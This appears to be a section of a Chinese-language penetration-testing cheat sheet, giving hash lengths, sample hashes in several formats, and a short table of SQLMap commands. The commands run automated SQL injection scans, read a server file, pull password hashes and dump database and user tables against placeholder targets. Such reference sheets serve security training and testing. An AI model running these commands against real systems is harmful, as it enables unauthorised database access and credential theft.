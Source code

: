 ## 密码学

### 哈希长度

| 哈希 | 长度 |
| :--- | :--- |
| MD5 | `16 Bytes` |
| SHA-1 | `20 Bytes` |
| SHA-256 | `32 Bytes` |
| SHA-512 | `64 Bytes` |

### 哈希例子

可以直接使用 **hash-identifier** 命令判断哈希类型，但这里还是举些例子。

| 哈希 | 例子 |
| :--- | :--- |
| MD5 Hash Example | `8743b52063cd84097a65d1633f5c74f5` |
| MD5 $PASS:$SALT Example | `01dfae6e5d4d90d9892622325959afbe:7050461` |
| MD5 $SALT:$PASS | `f0fda58630310a6dd91a7d8f0a4ceda2:4225637426` |
| SHA1 Hash Example | `b89eaac7e61417341b710b727768294d0e6a277b` |
| SHA1 $PASS:$SALT | `2fc5a684737ce1bf7b3b239df432416e0dd07357:2014` |
| SHA1 $SALT:$PASS | `cac35ec206d868b7d7cb0b55f31d9425b075082b:5363620024` |
| SHA-256 | `127e6fbfe24a750e72930c220a8e138275656b8e5d8f48a98c3c92df2caba935` |
| SHA-256 $PASS:$SALT | `c73d08de890479518ed60cf670d17faa26a4a71f995c1dcc978165399401a6c4` |
| SHA-256 $SALT:$PASS | `eb368a2dfd38b405f014118c7d9747fcc97f4f0ee75c05963cd9da6ee65ef498:560407001617` |
| SHA-512 | `82a9dda829eb7f8ffe9fbe49e45d47d2dad9664fbb7adf72492e3c81ebd3e29134d9bc12212bf83c6840f10e8246b9db54a4859b7ccd0123d86e5872c1e5082f` |
| SHA-512 $PASS:$SALT | `e5c3ede3e49fb86592fb03f471c35ba13e8d89b8ab65142c9a8fdafb635fa2223c24e5558fd9313e8995019dcbec1fb584146b7bb12685c7765fc8c0d51379fd` |
| SHA-512 $SALT:$PASS | `976b451818634a1e2acba682da3fd6efa72adf8a7a08d7939550c244b237c72c7d42367544e826c0c83fe5c02f97c0373b6b1386cc794bf0d21d2df01bb9c08a` |
| NTLM Hash Example | `b4b9b02e6f09a9bd760f388b67351e2b` |

## SQLMap例子

小型 SQLMap 速查表：

| 命令 | 解释 |
| :--- | :--- |
| `sqlmap -u http://meh.com --forms --batch --crawl=10  --cookie=jsessionid=54321 --level=5 --risk=3` | 自动化sqlmap扫描 |
| `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE  --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php"` | 指定目标的sqlmap scan |
| `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump` | 使用联合查询技术扫描mysql后端的基于报错的注入 ，使用随机UA，导出数据库 |
| `sqlmap -o -u "http://meh.com/form/" --forms` | 检测可能存在注入点表单 |
| `sqlmap -o -u "http://meh/vuln-form" --forms  -D database-name -T users --dump` | 导出指定数据库的user表并尝试破解哈希。 |

